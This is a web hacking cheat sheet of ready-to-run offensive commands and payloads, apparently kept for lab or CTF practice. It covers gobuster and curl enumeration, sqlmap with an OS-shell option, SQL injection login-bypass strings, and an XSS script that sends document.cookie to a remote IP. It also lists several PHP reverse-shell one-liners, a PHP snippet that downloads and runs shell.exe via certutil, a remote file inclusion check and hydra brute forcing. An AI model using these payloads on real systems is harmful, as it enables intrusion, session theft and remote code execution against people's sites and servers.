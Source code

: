 # Web Hacking Cheatsheet

<!--
##################################################################
##################################################################
-->

## Enumeration

### Directory Scan Using Gobuster

`gobuster dir -w /usr/share/seclists/Discovery/Web-Content/name of list -u http://targetURL`

### cURL

#### Links

[Everything curl](https://everything.curl.dev/)

#### GET Request

`curl http://targetURL`

#### GET Request Save Cookie

`curl -c /tmp/cookies http://targetURL`

#### GET Request with Cookie

`curl -b 'cookiename=cookievalue' https://google.com`

#### POST Request

`curl -X POST --data randomdata http://targetURL`

#### File Upload

`curl -F ‘data=@path/to/local/file’ UPLOAD_ADDRESS`

#### Set content length

`curl -d "" -X POST http://targetsite`

<!--
##################################################################
##################################################################
-->

## OAuth

#### Enumerating Metadata

**Find OAuth Server URL and make requests below**
`GET /.well-known/oauth-authorization-server`
`GET /.well-known/openid-configuration`
**EXAMPLE** `curl https://accounts.google.com/.well-known/openid-configuration`

<!--
##################################################################
##################################################################
-->

## SQLI

#### Test for SQLI with SQLMAP Using Cookie

`sqlmap -u 'http://website.address?field=to-test' --cookie="PHPSESSID=73jv7pdmjsv7dsspoqtnlv66ls"`

#### Use SQLMAP to Get Shell

`sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=802vjt3crnju4eg3ib0q04ge9v" --os-shell`

#### Bypass Authentication with SQL Injection

`' or 1=1 --`

`a' or 1=1 --`

`" or 1=1 --`

`a" or 1=1 --`

`' or 1=1 #`

`" or 1=1 #`

`or 1=1 --`

`' or 'x'='x`

`" or "x"="x`

`') or ('x'='x`

`") or ("x"="x`

<!--
##################################################################
##################################################################
-->

## XSS

#### Test for XSS

`Hello!<script>alert("Welcome");</script>`

#### XSS Cookie Hijacking

_Start XSS-cookie-stealer.py \*\*\*https://raw.githubusercontent.com/lnxg33k/misc/master/XSS-cookie-stealer.py_

_\*\*https://github.com/s0wr0b1ndef/WebHacking101/blob/master/xss-reflected-steal-cookie.md_

```
<script>
alert(document.cookie);
var i=new Image;
i.src="http://172.30.10.210:8888/?"+document.cookie;
</script>
```

<!--
##################################################################
##################################################################
-->

## [SQLite](https://www.sqlitetutorial.net/sqlite-commands/)

#### Access Database

`sqlite3 databasename.db`

#### Show Tables

`.tables`

#### Show Table Info

`PRAGMA table_info(tablename);`
`.schema tablename`

#### Dump Info From Table

`SELECT * FROM customers;`
`.dump tablename`

<!--
##################################################################
##################################################################
-->

## Shells

#### PHP

`php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'`

`php -r '$sock=fsockopen("10.0.0.1",4242);shell_exec("/bin/sh -i <&3 >&3 2>&3");'`

`php -r '$sock=fsockopen("10.0.0.1",4242);`/bin/sh -i <&3 >&3 2>&3`;'`

`php -r '$sock=fsockopen("10.0.0.1",4242);system("/bin/sh -i <&3 >&3 2>&3");'`

`php -r '$sock=fsockopen("10.0.0.1",4242);passthru("/bin/sh -i <&3 >&3 2>&3");'`

`php -r '$sock=fsockopen("10.0.0.1",4242);popen("/bin/sh -i <&3 >&3 2>&3", "r");'`

`php -r '$sock=fsockopen("10.0.0.1",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'`

#### Windows PHP Reverse Shell

`wget https://raw.githubusercontent.com/Dhayalanb/windows-php-reverse-shell/master/Reverse%20Shell.php`

#### Grab and Execute File

```
<?php
$exec = system('certutil.exe -urlcache -split -f "http://192.168.49.203/shell.exe"', $val);
sleep(5);
$exec = system('shell.exe', $val);
?>
```

<!--
##################################################################
##################################################################
-->

## Local File Inclusion

#### Check for if reverse shell possible after =

**Start Netcat Listener**

`nc -nlvp 80`

**Attempt to send request to Netcat listener**

`curl http://targeturl/site/index.php?page=http://NetcatAddress/test`

<!--
##################################################################
##################################################################
-->

## Brute Forcing

#### Web Login

`hydra -L /home/n0m4d1k/usernames -P /usr/share/wordlists/rockyou.txt -t 16 172.30.73.80 http-post-form "/login.php:username=^USER^&password=^PASS^&action=Login:Incorrect username or password"`

<!--
##################################################################
##################################################################
-->

## Useful Commands
